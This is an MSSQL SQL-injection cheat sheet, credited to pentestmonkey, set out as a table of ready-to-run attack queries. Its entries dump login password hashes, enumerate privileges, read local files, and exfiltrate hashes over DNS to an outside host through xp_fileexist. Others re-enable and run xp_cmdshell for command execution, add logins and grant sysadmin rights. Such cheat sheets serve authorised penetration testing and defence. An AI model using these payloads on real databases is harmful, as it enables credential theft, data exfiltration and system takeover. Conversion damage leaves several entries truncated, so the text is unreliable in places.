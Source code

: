# All credits to pentestmonkey
|Description| Command|
|--- |--- |
|Version|SELECT @@version|
|Comments|SELECT 1 — commen; SELECT /*comment*/1|
|Current User|SELECT user_name(); SELECT system_user; SELECT user; SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID|
|List Users|SELECT name FROM master..syslogins|
|List Password Hashes|SELECT name, password FROM master..sysxlogins — priv, mssql 2000; SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer; SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005; SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005|
|Password Cracker|MSSQL 2000 and 2005 Hashes are both SHA1-based.  phrasen|drescher can crack these.|
|List Privileges|– current privs on a particular object in 2005, 200; SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current databas; SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’); — current serve; SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’); –permissions on a tabl; SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’); –permissions on a user– current privs in 2005, 200; SELECT is_srvrolemember(‘sysadmin’); SELECT is_srvrolemember(‘dbcreator’); SELECT is_srvrolemember(‘bulkadmin’); SELECT is_srvrolemember(‘diskadmin’); SELECT is_srvrolemember(‘processadmin’); SELECT is_srvrolemember(‘serveradmin’); SELECT is_srvrolemember(‘setupadmin’); SELECT is_srvrolemember(‘securityadmin’); – who has a particular priv? 2005, 200; SELECT name FROM master..syslogins WHERE denylogin = 0; SELECT name FROM master..syslogins WHERE hasaccess = 1; SELECT name FROM master..syslogins WHERE isntname = 0; SELECT name FROM master..syslogins WHERE isntgroup = 0; SELECT name FROM master..syslogins WHERE sysadmin = 1; SELECT name FROM master..syslogins WHERE securityadmin = 1; SELECT name FROM master..syslogins WHERE serveradmin = 1; SELECT name FROM master..syslogins WHERE setupadmin = 1; SELECT name FROM master..syslogins WHERE processadmin = 1; SELECT name FROM master..syslogins WHERE diskadmin = 1; SELECT name FROM master..syslogins WHERE dbcreator = 1; SELECT name FROM master..syslogins WHERE bulkadmin = 1;|
|List DBA Accounts|SELECT is_srvrolemember(‘sysadmin’); — is your account a sysadmin?  returns 1 for true, 0 for false, NULL for invalid role.  Also try ‘bulkadmin’, ‘systemadmin’ and other values from the documentatio;  SELECT is_srvrolemember(‘sysadmin’, ‘sa’); — is sa a sysadmin? return 1 for true, 0 for false, NULL for invalid role/username; SELECT name FROM master..syslogins WHERE sysadmin = ’1′ — tested on 2005|
|Current Database|SELECT DB_NAME()|
|List Databases|SELECT name FROM master..sysdatabases; SELECT DB_NAME(N); — for N = 0, 1, 2, …|
|List Columns|SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB onl; SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|List Tables|SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for view; SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’; SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable|
|Find Tables From Column Name|– NB: This example works only for the current database.  If you wan’t to search another db, you need to specify the db name (e.g. replace sysobject with mydb..sysobjects); SELECT sysobjects.name as tablename, syscolumns.name as columnname FROM sysobjects JOIN syscolumns ON sysobjects.id = syscolumns.id WHERE sysobjects.xtype = ‘U’ AND syscolumns.name LIKE ‘%PASSWORD%’ — this lists table, column for each column containing the word ‘password’|
|Select Nth Row|SELECT TOP 1 name FROM (SELECT TOP 9 name FROM master..syslogins ORDER BY name ASC) sq ORDER BY name DESC — gets 9th row|
|Select Nth Char|SELECT substring(‘abcd’, 3, 1) — returns c|
|Bitwise AND|SELECT 6 & 2 — returns ; SELECT 6 & 1 — returns 0|
|ASCII Value -> Char|SELECT char(0×41) — returns A|
|Char -> ASCII Value|SELECT ascii(‘A’) – returns 65|
|Local File Read|SELECT * FROM OPENROWSET(BULK N'C:\\\\Windows\\\\win.ini', SINGLE_CLOB) AS Contents|
|Casting|SELECT CAST(’1′ as int); SELECT CAST(1 as char)|
|String Concatenation|SELECT ‘A’ + ‘B’ – returns AB|
|If Statement|IF (1=1) SELECT 1 ELSE SELECT 2 — returns 1|
|Case Statement|SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END — returns 1|
|Avoiding Quotes|SELECT char(65)+char(66) — returns AB|
|Time Delay|WAITFOR DELAY ’0:0:5′ — pause for 5 seconds|
|Make DNS Requests|declare @host varchar(800); select @host = name FROM master..syslogins; exec(‘master..xp_getfiledetails ”\’ + @host + ‘c$boot.ini”’); — nonpriv, works on 2000declare @host varchar(800); select @host = name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) + ‘.2.pentestmonkey.net’ from sys.sql_logins; exec(‘xp_fileexist ”\’ + @host + ‘c$boot.ini”’); — priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary; – Also check out theDNS tunnel feature of sqlninja|
|Command Execution|EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default: EXEC sp_configure ‘show advanced options’, 1; — pri; RECONFIGURE; — pri; EXEC sp_configure ‘xp_cmdshell’, 1; — pri; RECONFIGURE; — priv|
|Local File Access|CREATE TABLE mydata (line varchar(8000)); BULK INSERT mydata FROM ‘c:boot.ini’; DROP TABLE mydata;|
|Hostname, IP Address|SELECT HOST_NAME()|
|Create Users|EXEC sp_addlogin ‘user’, ‘pass’; — priv|
|Drop Users|EXEC sp_droplogin ‘user’; — priv|
|Make User DBA|EXEC master.dbo.sp_addsrvrolemember ‘user’, ‘sysadmin; — priv|
|Location of DB files|EXEC sp_helpdb master; –location of master.md; EXEC sp_helpdb pubs; –location of pubs.mdf|
|Default/System Databases|northwin; mode; msd; pubs — not on sql server 200; tempdb|
